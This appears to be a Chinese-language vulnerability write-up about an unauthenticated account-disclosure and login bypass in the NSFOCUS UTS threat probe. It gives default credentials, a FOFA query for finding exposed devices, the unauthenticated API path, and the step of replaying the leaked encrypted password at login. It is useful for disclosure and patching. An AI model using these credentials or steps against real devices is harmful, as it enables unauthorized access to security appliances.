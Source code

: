 # 

# 绿盟 UTS综合威胁探针 信息泄露登陆绕过漏洞

## 漏洞描述

绿盟 UTS综合威胁探针 某个接口未做授权导致未授权漏洞

## 漏洞影响

```
绿盟 UTS综合威胁探针
```

## 网络测绘

```
app="NSFOCUS-UTS综合威胁探针"
```

## 漏洞复现

默认口令

```
admin/Nsfocus@123
auditor/auditor
```

登陆页面

![image-20220525150142447](./images/202205251501583.png)

验证POC

```
/webapi/v1/system/accountmanage/account
```

![image-20220525150243440](./images/202205251502510.png)

这里出现了登录的账号以及加密的 PASS

登陆时的加密字段抓包修改为获取的就可以登陆系统

![](./images/202205251503644.png)

![](./images/202205251503926.png)
